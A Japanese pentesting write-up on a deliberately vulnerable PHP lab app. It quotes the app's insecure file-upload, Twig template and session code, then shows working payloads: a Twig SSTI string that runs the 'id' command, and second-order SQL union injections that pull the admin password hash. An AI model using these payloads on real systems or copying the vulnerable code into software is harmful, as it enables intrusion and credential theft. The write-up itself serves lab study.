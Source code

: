 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [trouble1](#trouble1)
  - [file upload](#file-upload)
  - [SSTI](#ssti)
  - [SQL Injection](#sql-injection)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# trouble1
https://github.com/TROUBLE-1/White-box-pentesting  

## file upload
以下の`admin/upload.php`でfile uploadの脆弱性がある。  
```php
<html>
<body>

<?php

    if(isset($_REQUEST['upload'])){

	if($_FILES["file"]["error"])
	{
		header("Location: welcome.php");
		die();	
	}

	$notAllowed = array('php','php1','php2','php3','php4','php5','php6','php7','phtml','exe','html','cgi','asp','gif','jpeg','png','vb','inf');

	$splitFileName = explode(".", $_FILES["file"]["name"]);

	$fileExtension = end($splitFileName);

	if(in_array($fileExtension, $notAllowed))
	{
		echo "Please upload a TEXT file";
	}
	else{

		echo "Name: ".$_FILES["file"]["name"];
		echo "<br>Size: ".$_FILES["file"]["size"];
		echo "<br>Temp File: ".$_FILES["file"]["tmp_name"];
		echo "<br>Type: ".$_FILES["file"]["type"];

		move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/".$_FILES["file"]["name"]);
	}
    }

?>

</body>
</html>

```
![image](https://user-images.githubusercontent.com/56021519/112270980-b21ec280-8cbd-11eb-8d31-6188d7853b63.png)  
![image](https://user-images.githubusercontent.com/56021519/112271023-be0a8480-8cbd-11eb-9ade-8ce79aa8dedf.png)  


## SSTI
`render`で検索すると以下のようにtwigが使用されているのでSSTIの可能性  
![image](https://user-images.githubusercontent.com/56021519/112273153-5e61a880-8cc0-11eb-8b91-ae44710b4a4c.png)  
なんかコードがミスっててerrorになるので以下のように編集した。  
```php
<?php
   if (isset($_REQUEST['submit'])) {
       $name=$_REQUEST['name'];
       // include and register Twig auto-loader
       include 'twig/twig/lib/Twig/Autoloader.php';
       Twig_Autoloader::register();
       try {
             // specify where to look for templates
                 $loader = new Twig_Loader_String();  
             // initialize Twig environment
                 $twig = new Twig_Environment($loader);
            // set template variables
            // render template
               $result= $twig->render($name);
               echo "<h2 style='color:white;'>You searched for ". @$result ."</h2>";
       } catch (Exception $e) {
             die ('<h2 style="color:white;">Bad Username</h2>' );
           }
   }
   ?>
```
![image](https://user-images.githubusercontent.com/56021519/112273054-425e0700-8cc0-11eb-9d65-b70dc6478770.png)  

以下で成功！  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  
```txt
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/56021519/112273908-39216a00-8cc1-11eb-9dd6-cb89f5f5c89e.png)  

## SQL Injection
ログを見ると、`BBB'`というユーザー名でRegisterした場合、以下のようにSQLInjectionできることがわかる！  
insertとselectでは違う構文でInjectionする必要があるが、その都度別のユーザー名を作成すれば任意のデータを読みだせる！  
```txt
                    70 Query    INSERT INTO user_log(username, login_date) values ('BBB'', '03/24/2021 04:04:12 am')

                    72 Query    SELECT * FROM user_log WHERE username = 'BBB''
```
`user_log.php`  
`$login_session`に`'`とかがエスケープされてない場合はSQLInjection可能！  
```php
                  if(isset($login_session)) {
               
                       $sql = "SELECT * FROM user_log WHERE username = '$login_session'";   
```
`session.php`  
`$login_session`には`BBB'`が入る！  
登録する前にPHP上では`\'`としてエスケープしていてもDBに登録する際に`'`に戻るので、それを読みだして使うとヤバい。  
```php
<?php
   include('config.php');
   session_start();
   
   $user_check = $_SESSION['login_user'];
   
   $ses_sql = mysqli_query($db,"select username from users where username = '$user_check' ");
   
   $row = mysqli_fetch_array($ses_sql,MYSQLI_ASSOC);
   
   $login_session = $row['username'];

    if(!isset($login_session)){
        header("location: index.php");
    }
?>
```
以下のように二つのユーザー名で作成するとデータを読みだせる。  
べつにinsertの方はやらなくてもよさそう。  
```txt
',version())#
                    81 Query    INSERT INTO user_log(username, login_date) values ('',version())#', '03/24/2021 04:15:11 am')
                    83 Query    SELECT * FROM user_log WHERE username = '',version())#'


' union select 1,2,3#
                    90 Query    INSERT INTO user_log(username, login_date) values ('' union select 1,2,3#', '03/24/2021 04:18:19 am')
                    92 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,3#'
```
![image](https://user-images.githubusercontent.com/56021519/112277693-58ba9180-8cc5-11eb-8050-3ecbb620046d.png)  

以下でpasswordをゲット！  
```txt
' union select 1,2,(select password from admin where id=1)#

                   113 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,(select password from admin where id=1)#'

21ffccddf815587ff8149a8efb1a5d86ac295d19
```

![image](https://user-images.githubusercontent.com/56021519/112279502-56f1cd80-8cc7-11eb-88ae-62be052cb08d.png)  
ログインは以下のようになっているため、`SHA1(CONCAT(password, '$passtoken'))`は計算できる！  
```php
<?php
   include("config.php");
   
   session_start();
   if (isset($_POST['token']))   
   {   
    $_SESSION['token'] = $_POST['token'];   
   }   
    else{
        if (!isset($_SESSION['token']))   
        $_SESSION['token'] = sha1(mt_rand() . microtime(TRUE));
    }
   if($_SERVER["REQUEST_METHOD"] == "POST") {     
      // username and password sent from form 
      if(isset($_POST['username'])){
          $myusername = mysqli_real_escape_string($db,$_POST['username']);
          $mypassword = mysqli_real_escape_string($db,$_POST['form_password_hidden']); 
          $passtoken = $_SESSION['token'];
          $sql = "SELECT id FROM users WHERE username = '$myusername' and SHA1(CONCAT(password, '$passtoken'))='$mypassword'";
```
ブラウザ上では以下のようにPHPから指定されたtokenを使ってPassword欄に入力された値をSHA1ハッシュとかに変換してからサーバーに送信している。  
![image](https://user-images.githubusercontent.com/56021519/112282224-4000aa80-8cca-11eb-9836-9d99a56ee5bb.png)  


